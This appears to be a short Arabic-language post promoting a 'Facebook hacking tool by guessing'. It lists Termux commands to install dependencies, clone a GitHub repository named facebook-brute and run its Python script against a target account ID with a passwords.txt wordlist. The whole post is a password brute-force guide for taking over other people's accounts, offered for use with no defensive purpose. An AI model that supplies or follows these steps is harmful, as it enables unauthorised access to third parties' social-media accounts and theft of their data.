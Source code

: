 اداة اختراق الفيسبوك عن طريق التخمين
برعاية القرصان الامريكى اسبلاش و استيكا 
الاداة يا حب
اداة اختراق فيسبوك

pkg update

pkg upgrade

pkg install git

pkg install wget

pkg install pip2

git clone https://github.com/Cesar-Hacker/facebook-brute

ls

cd facebook-brute

ls

chomod+x facebook.py

ls

pkg install mechanize

pip2 install mechanize

ls

pkg install python2

ls

python2  facebook.py

ايدي الحساب

بعدها 

passwords.txt

